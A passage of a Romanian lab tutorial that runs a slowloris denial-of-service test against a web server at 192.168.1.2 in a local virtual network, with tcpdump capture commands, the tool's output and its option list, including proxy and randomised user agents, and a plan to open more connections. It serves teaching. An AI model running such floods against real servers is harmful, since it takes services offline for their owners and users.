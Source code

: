 
> Deci, serverul ruleaza cu **PID**-ul **605**, pe **port**-ul **80** (bine de stiut numarul portului).



```sh
root@host:~# tcpdump -i veth-red -n
```

```sh
# Mai bine, pentru a salva intr-un fisier si a-l vizualiza in WireShark
root@host:~# tcpdump -i veth-red -n -vv -w dos-packets.pcap
```


Pe orice statie, vizualizez browser-ul in terminal, spre exemplu:

```sh
# Intr-un alt terminal, afisez browser-ul
root@host:~# elinks http://192.168.1.2/
```


Acum, pe **green**, incepe partea interesanta.


```sh
root@green:~# slowloris https://192.168.1.2
```
```
[11-12-2024 22:56:13] Attacking https://192.168.1.2 with 150 sockets.
[11-12-2024 22:56:13] Creating sockets...
[11-12-2024 22:56:13] Sending keep-alive headers...
[11-12-2024 22:56:13] Socket count: 0
[11-12-2024 22:56:13] Creating 150 new sockets...
```


In manualul de utilizator, spune urmatoarele:

* -p, --port
* * Port of webserver, usually 80
* -s, --sockets
* * Number of sockets to use in the test
* -v, --verbose
* * Increases logging (output on terminal)
* -ua, --randuseragents
* * Randomizes user-agents with each request
* -x, --useproxy
* * Use a SOCKS5 proxy for connecting
* --https
* * Use HTTPS for the requests
* --sleeptime
* * Time to sleep between each header sent


Deci, pot folosi o abordare mai puternica, deschizand mai multe conexiuni, intr-un timp cat mai mic,
explicit doar pe port-ul serverului (port **80**).
